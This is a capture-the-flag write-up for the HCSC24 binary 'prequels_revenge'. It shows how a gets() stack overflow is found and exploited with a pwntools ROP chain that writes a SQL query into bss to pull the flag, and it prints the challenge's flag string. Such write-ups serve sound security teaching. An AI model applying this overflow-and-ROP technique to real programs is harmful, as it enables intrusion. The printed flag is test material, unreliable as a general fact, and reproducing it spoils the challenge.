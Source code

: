 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages.db`

This challenge is essentially the same as `prequel`, but this time we don't have any debug functions or useful strings, so we have to be smart about constructing our ROP chain.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place - this is not true for the main function, and there isn't a memory segment that is writeable and executable at the same time. We don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)

As you can see using execve and execveat results in terminating the process, so we can't get a shell without exploiting the kernel itself to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequels_revenge")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return-oriented programming (ROP), we can't just send a shellcode and jump there.
This time our job is harder than the previous challenge, because there are no debug functions, and there is no `SELECT * FROM flag;` string in the binary that we could utilize for getting the flag.

Our new strategy is to call the gets on a writeable memory address (for example bss), write `SELECT * FROM flag;` to that place and then call get_messages with the query provided by us.
This is pretty easy, we need a pop rdi gadget, and the address of gets and get_message. We don't have to supply another parameter to get_message, because it only prints out a warning when we don't supply the second parameter.

This time I utilized pwntools' automatic rop chain building capabilities.

```python
from pwn import *

context.binary = elf = ELF("./prequels_revenge")

p = process()

r = ROP(elf)
r.raw(b"A" * 72) # padding

r.gets(elf.bss()) # elf bss is a writeable memory address
r.get_message(elf.bss())

p.sendline(r.chain())
p.sendline(b"SELECT * FROM flag;")
p.recvuntil(b"Failed to bind text: column index out of range\n")

flag = p.recvline().decode()
log.info("Got flag: " + flag)
```

Running the exploit on remote yields the following flag: `HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}`
This is pretty funny because my first method for solving the previous challenge named `prequel` was this exploit, then I realized there is a simpler way, but actually, this was beneficial, because on the second day, this challenge came out and I already had this exploit.